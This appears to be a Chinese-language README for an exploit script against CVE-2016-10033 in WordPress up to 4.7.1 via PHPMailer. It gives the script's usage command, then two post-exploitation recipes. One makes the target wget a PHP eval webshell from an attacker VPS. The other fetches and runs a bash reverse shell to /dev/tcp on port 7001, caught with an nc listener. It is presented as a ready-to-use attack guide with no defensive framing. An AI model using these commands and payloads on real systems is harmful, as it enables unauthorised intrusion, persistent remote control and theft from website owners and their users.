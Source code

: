 # WordPress-RCE-EXP
# 影响版本
漏洞编号：CVE-2016-10033 （基于）
WordPress <= 4.7.1 
PHPMailer < 5.2.18
# 0x1漏洞检测

```
python3 wp_rce_exp.py <目标> <目标站存在的用户名>

Python3 wp_rce_exp.py http://127.0.0.1/ admin
```
# 0x2漏洞利用
出现
Test_blind_shell>>>
后，说明网站存在RCE漏洞
有两种方式来漏洞利用

### 一、写入Webshell

 1.在vps上开web服务，在web目录下的test.txt文件中写入一句话
```
<?php @eval($_POST[test]); ?>
```

 
2.目标使用wget下载到web目录上
(注意vps需要用ip地址，前面不能加http://)
```
Test_blind_shell>>>/usr/bin/wget --output-document /var/www/html/shell.php VPS的ip/shell.txt
```
3.使用菜刀连接网站根目录的shell.php

### 二、反弹shell: 
1.在vps上开web服务，写shell.txt文件内容为 
```
bash -i >& /dev/tcp/VPS的ip/7001 0>&1
```


2.在VPS上使用nc监听7001端口 命令：

```
nc -lvp 7001
```


3.目标使用wget下载到/tmp目录/test.sh
```
Test_blind_shell>>>/usr/bin/wget --output-document /tmp/test.sh VPS的ip/shell.txt
```
4.执行下载到本地的脚本文件

```
Test_blind_shell>>>/usr/bash ./tmp/test.sh
```
注意命令执行需要加上绝对路径例如/bin/bash 有些特殊字符不能使用例如&分号引号等
